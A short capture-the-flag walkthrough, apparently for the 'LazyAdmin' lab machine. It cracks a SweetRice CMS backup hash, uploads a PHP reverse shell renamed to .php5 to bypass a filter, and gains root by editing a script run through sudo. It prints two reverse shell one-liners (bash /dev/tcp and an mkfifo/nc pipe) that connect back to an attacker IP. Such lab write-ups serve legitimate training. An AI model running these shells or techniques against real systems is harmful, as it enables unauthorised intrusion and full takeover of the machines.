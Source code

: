 ![](attachments/lazyadminnmap.png)
![](attachments/lazyadmin%20sweet%20rice.png)


\"admin\\";s:7:\\"manager\\";s:6:\\"passwd\\";s:32:\\"
again from some digging got this  page 
http://10.10.51.131/content/as/
![](attachments/lazyadminlogin.png)

https://www.sweetrice.xyz/docs/5-things-need-to-be-done-when-SweetRice-installed/ got this 


http://10.10.51.131/content/inc/. got the list of directories from it
![](attachments/lazyadmindirectorylist.png)

cracking the hash we got from the backup file 
Password123

logging in with cred manager and password: Password123

we see a wordpress like file 
and file upload option there we uploaded our reverseshell.php5 since php is not allowed
### privilege escalaition
sudo -l gives /home/itguy/backup.pl file
it shows that backup.pl runs /etc/test.sh  now modifying the etc/test.sh to run reverse shell on our attacking machine.
bash -i >& /dev/tcp/10.17.#.#/8080 0>&1
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.17.56.56 3333 >/tmp/f
![](attachments/lazyadminpriv2.png)
which gives us our root bash
running cat /root/root.txt gives us the rootflag
